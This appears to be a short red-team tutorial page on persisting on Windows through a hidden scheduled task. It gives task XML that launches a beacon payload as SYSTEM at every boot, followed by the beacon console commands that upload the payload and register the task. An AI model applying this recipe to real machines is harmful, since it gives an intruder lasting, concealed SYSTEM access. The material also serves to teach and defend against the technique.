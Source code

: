 # Scheduled Task

The Windows Task Scheduler can execute tasks as SYSTEM as well as standard users.  When elevated privileges has been achieved on a machine, the adversary can maintain that level of access by creating a task that will re-execute a payload on a trigger of their choosing.

The following XML will add a task that will run under the context of SYSTEM when the computer boots up.

```xml
<Task xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task">
	<Triggers>
		<BootTrigger>
			<Enabled>true</Enabled>
		</BootTrigger>
	</Triggers>
	<Principals>
		<Principal>
			<UserId>NT AUTHORITY\SYSTEM</UserId>
			<RunLevel>HighestAvailable</RunLevel>
		</Principal>
	</Principals>
	<Settings>
		<AllowStartOnDemand>true</AllowStartOnDemand>
		<Enabled>true</Enabled>
		<Hidden>true</Hidden>
	</Settings>
	<Actions>
		<Exec>
			<Command>C:\Windows\System32\beacon_x64.exe</Command>
		</Exec>
	</Actions>
</Task>
```

```batch
beacon> cd C:\Windows\System32
beacon> upload C:\Payloads\beacon_x64.exe
beacon> schtaskscreate \Beacon XML CREATE

createTask hostname: taskpath:\Beacon mode:2 force:0
Got user name and security descriptor
Valitdated task
Created task path
Registered task
SUCCESS.
```
